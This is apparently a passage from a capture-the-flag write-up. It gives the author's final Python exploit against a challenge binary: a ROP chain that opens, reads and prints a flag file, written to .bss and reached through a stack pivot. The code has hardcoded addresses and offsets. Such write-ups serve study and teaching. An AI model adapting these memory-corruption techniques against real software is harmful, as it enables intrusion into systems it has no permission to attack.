 ```Python
    #pre-emptively set up the rop chain
    #this isn't what we're going to write to the stack
    #what we are actually going to write to the stack is a stack pivot to this chain
    flagfileaddr = 0x404078
    actualflag = 0x04041c0
    poprdi = p64(0x000000000040143b) #pop rdi; ret
    poprsi = p64(libc_base + 0x0000000000027529) #pop rsi; ret
    poprdx = p64(libc_base + 0x00000000001626d6) #pop rdx; pop rbx; ret;
    ropchain = poprdi
    ropchain += p64(flagfileaddr) #rdi will contain the name
    ropchain += poprsi
    ropchain += p64(0x0)
    ropchain += p64(libc_base + 0x110cc0) #open call proper
    #there are no good mov [insert register], rax gadgets
    #I'll just assume the file descriptor is 3 lmao
    #now read from the flag file:
    ropchain += poprdi
    ropchain += p64(0x3) #rdi will contain the descriptor, which we're assuming is 3
    ropchain += poprsi
    ropchain += p64(actualflag) #rsi will contain the buffer we write the flag to
    ropchain += poprdx
    ropchain += p64(0x48) #48 bytes should be enough
    ropchain += p64(0x0) #filler
    ropchain += p64(libc_base + 0x110fa0) #actual call to read
    #now write our flag:
    ropchain += poprdi
    ropchain += p64(actualflag)
    ropchain += p64(0x401333) #jump to puts???
    ropchain += p64(0x401264) #jump back to main in case the exploit failed)
    #write the rop chain to .bss:
    write_chain(0x404090, ropchain)
    #now jump to our rop chain!
    useless_read()
    #overwrite to a pop one-gadget which will direct it to our rop chain on the stack :)
    write_int(0x404060, 0x40143b)
    #write a short pivot chain to get to our rop chain on .bss
    pivot = p64(libc_base + 0x0000000000032b5a) #pop rsp; ret
    pivot += p64(0x404090) 
    feedback(pivot)
    sock.interactive()
while True :
    main()
    choice = input("continue?: ")
    if choice.strip() == "no" :
        quit()
    sock = conn()
```
Here's the final exploit
